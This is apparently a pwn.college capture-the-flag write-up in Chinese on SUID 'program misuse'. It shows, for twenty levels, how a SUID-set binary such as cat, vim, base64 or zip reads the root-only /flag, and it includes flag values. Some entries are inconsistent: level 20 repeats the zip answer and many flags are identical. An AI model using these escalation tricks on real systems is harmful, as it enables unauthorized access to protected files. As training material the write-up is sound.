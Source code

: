 ```yaml
---
id: yc5ui47ocbxpurp5h4310iw
title: Program Misuse
desc: ''
updated: 1669076410724
created: 1669076357635
---
```




## Challenges

### 如何开始做题
```sh
/challenge/babysuid_level1
```
### 解题思路
根据这个章节的名字可知：程序的错误使用，某个可执行程序（通常为系统中常见的程序）被设置了suid位，设置了suid位的程序能够以该程序所有者的权限执行程序，因此如果程序所有者为root则能够以root权限执行，可完成提权，读取root文件等操作


### babysuid-level1
`/usr/bin/cat`被设置suid
```sh
cat /flag
# pwn.college{IIrsGeCfQOMDxkMJjv325KWhdRR.QXzQTMsQDMyMzW}
```
### babysuid-level2
`/usr/bin/more`被设置suid
```sh
more /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level3
`/usr/bin/less`被设置suid
```sh
less /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```
### babysuid-level4
`/usr/bin/tail`被设置suid
```sh
tail /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```
### babysuid-level5
`/usr/bin/head`被设置suid
```sh
head /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level6
`/usr/bin/sort`被设置suid
```sh
sort /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level7
`/usr/bin/vim`被设置suid
```sh
vim /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level8
`/usr/bin/emacs`被设置suid
```sh
emacs /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level9
`/usr/bin/nano`被设置suid
```sh
nano /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level10
`/usr/bin/rev`被设置suid
```sh
rev /flag | rev
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level11
`/usr/bin/od`被设置suid

打印八进制数，需要
```sh
od /flag

0000000  30576  11886  28515  27756  26469  31589  28267  27719
0000020  22099  21361  24936  29287  27467  13363  27714  25929
0000040  25680  20022  26188  11861  22609  21882  19796  20851
0000060  19780  19833  22394   2685
0000070
```
打印字符，是否可以写入文件
```sh
od /flag -c
0000000   p   w   n   .   c   o   l   l   e   g   e   {   k   n   G   l
0000020   S   V   q   S   h   a   g   r   K   k   3   4   B   l   I   e
0000040   P   d   6   N   L   f   U   .   Q   X   z   U   T   M   s   Q
0000060   D   M   y   M   z   W   }  \n
0000070
```

### babysuid-level12
`/usr/bin/hd`被设置suid
```sh
hd /flag 
00000000  70 77 6e 2e 63 6f 6c 6c  65 67 65 7b 6b 56 69 61  |pwn.college{kVia|
00000010  44 61 51 41 57 51 70 62  66 51 68 6e 66 47 6e 77  |DaQAWQpbfQhnfGnw|
00000020  64 47 30 75 73 4a 67 2e  51 58 30 55 54 4d 73 51  |dG0usJg.QX0UTMsQ|
00000030  44 4d 79 4d 7a 57 7d 0a                           |DMyMzW}.|
00000038
```

### babysuid-level13
`/usr/bin/xxd`被设置suid
```sh
xxd /flag 
00000000: 7077 6e2e 636f 6c6c 6567 657b 5144 5548  pwn.college{QDUH
00000010: 6f31 6970 7761 6f7a 2d71 5730 3461 5133  o1ipwaoz-qW04aQ3
00000020: 6844 466a 795a 6c2e 5158 3155 544d 7351  hDFjyZl.QX1UTMsQ
00000030: 444d 794d 7a57 7d0a                      DMyMzW}.
```


### babysuid-level14
`/usr/bin/base32 `被设置suid
```sh
base32 /flag | base32 -d
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level15
`/usr/bin/base64 `被设置suid
```sh
base64 /flag | base64 -d
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level16
`/usr/bin/split `被设置suid
`split`可将文件分割，默认分割名字前缀为`x`则分割后文件名为`xaa xab`
```sh
split /flag 
cat /xaa
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level17
`/usr/bin/gzip `
```sh
gzip /flag
# flag.gz 仍是root只可读
gzip /flag.gz -d -c
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```


### babysuid-level18
`/usr/bin/bzip2 `
```sh
bzip2 -z /flag
# flag.bz2 仍是root只可读
bzip2 -d -c /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level19
`/usr/bin/zip `是否改成其他用户可读
```sh
zip z /flag.zip
#-rw-r--r-- 1 root hacker 214 Nov  9 00:16 /z.zip
# z.zip hacker可读
unzip /z.zip
# 将z.zip解压到hacker目录，其中的文件flag hacker可读
#r-------- 1 hacker hacker 56 Nov  9 00:08 flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```


### babysuid-level20
`/usr/bin/tar `是否改成其他用户可读
```sh
zip z /flag.zip
#-rw-r--r-- 1 root hacker 214 Nov  9 00:16 /z.zip
# z.zip hacker可读
unzip /z.zip
# 将z.zip解压到hacker目录，其中的文件flag hacker可读
#r-------- 1 hacker hacker 56 Nov  9 00:08 flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```